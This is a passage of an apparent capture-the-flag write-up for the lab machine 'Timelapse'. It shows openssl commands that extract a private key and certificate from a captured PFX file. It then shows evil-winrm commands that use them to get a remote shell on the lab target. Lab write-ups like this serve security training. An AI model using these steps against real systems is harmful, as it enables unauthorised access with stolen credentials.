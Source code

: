 ## Attempts
### Extract Keys
```sh
# dump the key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc

# decrypt the key
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key

# dump the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```

![screenshot](/assets/images/timelapse15.png)
### Evil-winrm
```sh
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem 

# this worked
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

![screenshot](/assets/images/timelapse16.png)
